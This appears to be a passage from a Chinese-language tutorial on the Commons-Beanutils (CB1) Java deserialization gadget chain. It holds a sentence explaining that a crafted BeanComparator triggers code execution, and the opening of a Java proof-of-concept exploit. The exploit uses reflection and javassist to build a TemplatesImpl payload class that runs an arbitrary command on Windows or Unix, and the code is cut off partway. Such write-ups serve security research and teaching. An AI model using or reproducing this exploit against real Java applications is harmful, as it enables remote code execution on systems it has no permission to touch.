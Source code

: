 ![image-20240303184421524](assets/image-20240303184421524.png)

![image-20240303185853640](assets/image-20240303185853640.png)

那么我们只要构造一个`BeanComparator`传进去，就可以触发代码，弹计算器了，利用`Poc`如下：

```java
package org.example.cb1;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.beanutils.BeanComparator;
import org.example.util.Tools;

import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CB1Poc {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static CtClass genPayload(String cmd) throws NotFoundException, CannotCompileException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("Exp");

        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public Exp() throws Exception {\n" +
                "            try {\n" +
                "                    String tc = \"" + cmd + "\";\n" +
                "                    String[] cmd = System.getProperty(\"os.name\").toLowerCase().contains(\"windows\") " +
```